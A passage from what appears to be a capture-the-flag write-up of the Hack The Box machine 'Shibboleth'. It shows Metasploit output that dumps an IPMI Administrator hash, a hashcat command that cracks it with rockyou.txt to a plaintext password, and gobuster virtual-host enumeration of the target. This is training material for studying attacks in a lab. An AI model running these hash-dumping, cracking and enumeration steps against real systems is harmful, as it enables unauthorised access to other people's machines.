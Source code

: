```bash
[+] 10.129.123.122:623 - IPMI - Hash found: Administrator:7df68289020200007155c0f10a78865a967592291fa8a399b8eb5346ceef04d229d2b5c846ec0e22a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:debf95ec5baffad0c159155c175911e56bd6c9f4
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

After running the hash through `rockyou.txt`, `Administrator`'s password is `ilovepumkinpie1`.

```bash
$ hashcat -m 7300 '7df68289020200007155c0f10a78865a967592291fa8a399b8eb5346ceef04d229d2b5c846ec0e22a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:debf95ec5baffad0c159155c175911e56bd6c9f4' rockyou.txt
7df68289020200007155c0f10a78865a967592291fa8a399b8eb5346ceef04d229d2b5c846ec0e22a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:debf95ec5baffad0c159155c175911e56bd6c9f4:ilovepumkinpie1
```

---

## TCP Port 80 Enumeration

### Virtual Host Enumeration

The vast majority of virtual hosts return 302s. [Filtering those away](https://gist.github.com/tgihf/4c8f510ba18c392aa9a849549a048a8c) yields 200s with the same response size for `monitor`, `monitoring`, and `Monitor`. Add these to the local DNS resolver.

```bash
$ gobuster vhost -u http://shibboleth.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt > vhosts.txt
$ gobuster-vhost-to-json --file vhosts.txt | jq '.[] | select(.status != 302)'
{
  "hostname": "monitor.shibboleth.htb",
  "status": 200,
  "size": 3689
}
{
  "hostname": "monitoring.shibboleth.htb",
  "status": 200,
  "size": 3689
}
{
  "hostname": "Monitor.shibboleth.htb",
  "status": 200,
  "size": 3689
}
```

---

## `http://shibboleth.htb`
